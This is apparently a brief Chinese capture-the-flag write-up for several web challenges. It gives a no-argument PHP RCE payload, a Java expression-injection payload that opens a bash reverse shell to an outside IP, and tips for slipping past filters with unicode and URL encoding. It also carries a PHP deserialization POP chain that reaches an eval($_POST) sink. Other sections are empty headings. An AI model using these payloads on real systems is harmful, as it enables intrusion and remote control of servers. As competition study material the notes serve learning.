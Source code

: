 # web
### babyphp
#无参rce 
`commandshow_source(array_rand(array_flip(scandir(getcwd()))));`


### pain
#ongi #java 
表达式注入,使用unicode编码绕过
```shell
(new java.lang.ProcessBuilder(new java.lang.String[]{'bash','-c','bash -i >& /dev/tcp/54.255.166.12/80 0>&1'})).start()
```
先unicode编码后url编码

### 我全都要
```php
<?php
highlight_file(__FILE__);

class B{
    public $pop;
    public $i;
    public $nogame;

    public function __destruct()
    {
        if(preg_match("/233333333/",$this->pop)){
            echo "这是一道签到题，不能让新生一直做不出来遭受打击";
        }
    }

    public function game(){
        echo "扣1送地狱火";
        if ($this->i = "1"){
            echo '<img src=\'R.jpg\'>';
            $this->nogame->love();
        }
    }

    public function __clone(){
        echo "必须执行";
        eval($_POST["cmd"]);
    }
}


class A{
    public $Aec;
    public $girl;
    public $boy;

    // public function __toString()
    // {
    //     echo "I also want to fall in love";
    //     if($this->girl != $this->boy && md5($this->girl) == md5($this->boy)){
    //         $this->Aec->game();
    //     }
    // }


}


class P{
    public $MyLover;
    public function __call($name, $arguments)
    {
        echo "有对象我会在这打CTF???看我克隆一个对象！";
        if ($name != "game") {
            echo "打游戏去，别想着对象了";
            $this->MyLover = clone new B;
        }
    }


}

$a=new B();
$b=new A();
$c=new P();
$d=new B();

$a->pop=$b;
$b->boy=array('a');
$b->girl=array('b');
$b->Aec=$d;
$d->i=1;
$d->nogame=$c;
$c->MyLover=$d;
echo(serialize($a));
```

### DoyouknowCC


# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-09-08   14:57